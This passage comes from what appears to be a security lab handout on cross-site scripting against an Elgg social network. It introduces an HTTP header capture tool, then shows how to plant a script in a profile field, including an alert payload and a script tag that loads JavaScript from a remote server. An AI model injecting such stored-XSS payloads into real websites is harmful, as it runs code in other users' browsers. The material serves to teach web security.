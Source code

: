 





\section{Lab Tasks}


\subsection{Preparation: Getting Familiar with the \texttt{"HTTP Header Live"} tool}

In this lab, we need to construct HTTP requests. To figure out 
what an acceptable HTTP request in Elgg looks like, we need to 
be able to capture and analyze HTTP requests. 
We can use a Firefox add-on called \texttt{"HTTP Header Live"} for this
purpose. Before you start working on this lab, you should 
get familiar with this tool.
Instructions on how to use this tool is given in the Guideline
section~(\S~\ref{web:sec:httpheaderlive}).



\subsection{Task 1: Posting a Malicious Message to Display an Alert Window}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile, 
the JavaScript program will be executed and an alert window
will be displayed. The following JavaScript program will display an alert window: 
\begin{lstlisting}
<script>alert('XSS');</script> 
\end{lstlisting}
If you embed the above JavaScript code in your profile (e.g. in the brief
description field), then any user who views your profile will see the alert window. 

In this case, the JavaScript code is short enough to be typed into the 
short description field. If you want to run a long JavaScript, but you are limited
by the number of characters you can type in the form, you can store the 
JavaScript program in a standalone file, save it with the .js extension, and 
then refer to it using the {\tt src} attribute in the {\tt <script>} tag. 
See the following example:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
In the above example, the page will fetch the JavaScript program from
\url{http://www.example.com}, which can be any web server.



